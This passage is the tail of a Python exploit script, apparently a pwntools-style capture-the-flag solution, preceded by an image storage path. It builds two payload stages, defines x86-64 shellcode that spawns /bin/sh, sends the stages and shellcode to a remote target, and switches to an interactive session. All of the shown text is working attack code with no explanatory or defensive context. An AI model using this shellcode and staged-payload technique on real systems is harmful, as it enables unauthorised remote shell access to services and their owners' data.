 ```python
    print(stage1)
    print()
    print()
    print()
    stage2 = convert_to_luma_asm(payload2)
    print(stage2)

    shellcode = b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f\x52\x5e\x6a\x3b\x58\x0f\x05"

    r.sendafter(b": \n", stage1)
    input("wait")
    r.send(shellcode)
    r.send(stage2)

    r.interactive()


if __name__ == "__main__":
    main()
```

